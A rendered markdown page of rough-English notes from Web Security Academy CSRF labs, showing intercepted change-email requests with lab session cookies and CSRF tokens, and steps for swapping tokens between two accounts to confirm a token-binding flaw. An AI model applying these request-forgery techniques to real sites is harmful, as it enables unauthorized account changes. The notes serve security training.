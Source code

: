     email=nasir%40gmail.com&csrf=HqtjvqoKSCdRw8vNjNE9jliF8P39WhM2
 
  ## Local User account request 
 
## Drop The Request, Don't sand the request to server
 
    POST /my-account/change-email HTTP/1.1
    Host: 0a0800450456c9a9c0431ce40073003c.web-security-academy.net
    Cookie: session=s9t9wxedbIp1ub1eCsb6uXTps09RV5l3
    User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0
    Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
    Accept-Language: en-US,en;q=0.5
    Accept-Encoding: gzip, deflate
    Content-Type: application/x-www-form-urlencoded
    Content-Length: 60
    Origin: https://0a0800450456c9a9c0431ce40073003c.web-security-academy.net
    Dnt: 1
    Referer: https://0a0800450456c9a9c0431ce40073003c.web-security-academy.net/my-account
    Upgrade-Insecure-Requests: 1
    Sec-Fetch-Dest: document
    Sec-Fetch-Mode: navigate
 
    email=asif%40gmail.com&csrf=Oi7rHvtd7DOqsEEGicPXo4LBMidJEYcD
 
 
  Copy the csrf token Privilege account, and past the normal use csrf token, sand the to request server, Server is accept the request, This is vulnerable
  
 
 
 
  ## 5 CSRF where token is tied to non-session cookie
  
  Find CSRF vulnerability
  
  Email change functionality is vulnerable to CSRF
  
  Burp intercept request and manualy review
 
  You have two accounts on the application that you can use to help design your attack
 
 Observe that if you Change  the csrfKey cookie and csrf parameter from the first account to the second account, the request is accepted. 
 
 THIS IS VULNERABLE
 
 ## Privilege account request
 
## Drop The Request Don't sand the request server
 
    POST /my-account/change-email HTTP/1.1
    Host: 0a46002a0304dbd3c03a186b00050036.web-security-academy.net
    Cookie: session=ABcCuqstyngyux2QNIm9mq260r2zi58z; csrfKey=mVCTxe6SETdHTB59NX7izfWGmQbCJtGt
    User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0
    Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
    Accept-Language: en-US,en;q=0.5
    Accept-Encoding: gzip, deflate
    Content-Type: application/x-www-form-urlencoded
    Content-Length: 60
    Origin: https://0a46002a0304dbd3c03a186b00050036.web-security-academy.net
    Dnt: 1
    Referer: https://0a46002a0304dbd3c03a186b00050036.web-security-academy.net/my-account
    Upgrade-Insecure-Requests: 1
    Sec-Fetch-Dest: document
    Sec-Fetch-Mode: navigate
    Sec-Fetch-Site: same-origin
    Sec-Fetch-User: ?1